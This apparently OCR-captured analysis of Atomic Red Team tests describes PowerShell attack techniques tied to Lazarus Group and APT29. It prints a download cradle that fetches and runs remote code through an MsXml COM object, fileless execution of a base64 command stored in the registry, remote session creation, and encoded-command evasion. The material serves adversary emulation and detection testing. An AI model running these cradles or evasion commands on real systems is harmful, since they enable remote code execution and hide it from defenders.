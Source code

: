 
## Detailed Test Analysis

### Atomic Test #6 - Powershell MsXml COM object - with prompt
**Technique:** Download Cradle  
**Adversary Usage:** Lazarus Group  
**Command:**
```cmd
powershell.exe -exec bypass -noprofile "$comMsXml=New-Object -ComObject MsXml2.ServerXmlHttp;$comMsXml.Open('GET','#{url}',$False);$comMsXml.Send();IEX $comMsXml.ResponseText"
```
**Explanation:** This test uses the `MsXml2.ServerXmlHttp` COM object to make HTTP requests and execute retrieved content. Lazarus Group frequently uses such techniques to download and execute payloads without writing to disk, enabling fileless operations.

### Atomic Test #10 - PowerShell Fileless Script Execution
**Technique:** Fileless Execution  
**Adversary Usage:** APT29  
**Command:**
```powershell
reg.exe add "HKEY_CURRENT_USER\Software\Classes\AtomicRedTeam" /v ART /t REG_SZ /d "U2V0LUNvbnRlbnQgLXBhdGggIiRlbnY6U3lzdGVtUm9vdC9UZW1wL2FydC1tYXJrZXIudHh0IiAtdmFsdWUgIkhlbGxvIGZyb20gdGhlIEF0b21pYyBSZWQgVGVhbSI=" /f
iex ([Text.Encoding]::ASCII.GetString([Convert]::FromBase64String((gp 'HKCU:\Software\Classes\AtomicRedTeam').ART)))
```
**Explanation:** APT29 frequently stores encoded PowerShell commands in registry keys for fileless execution. This test stores a base64-encoded command in the registry and executes it directly from memory.

### Atomic Test #12 - PowerShell Session Creation and Use
**Technique:** Remote Session Execution  
**Adversary Usage:** Lazarus Group  
**Command:**
```powershell
New-PSSession -ComputerName #{hostname_to_connect}
Test-Connection $env:COMPUTERNAME
```
**Explanation:** Lazarus uses PowerShell remoting (`New-PSSession`) to execute commands on remote systems during lateral movement operations.

### Atomic Test #14 - ATHPowerShellCommandLineParameter -Command parameter variations with encoded arguments
**Technique:** EncodedCommand  
**Adversary Usage:** APT29  
**Command:**
```powershell
Out-ATHPowerShellCommandLineParameter -CommandLineSwitchType Hyphen -CommandParamVariation C -UseEncodedArguments -EncodedArgumentsParamVariation EA -Execute
```
**Explanation:** APT29 heavily uses the `-EncodedCommand` parameter with base64-encoded payloads to evade detection. This test demonstrates various parameter variations for encoded execution.
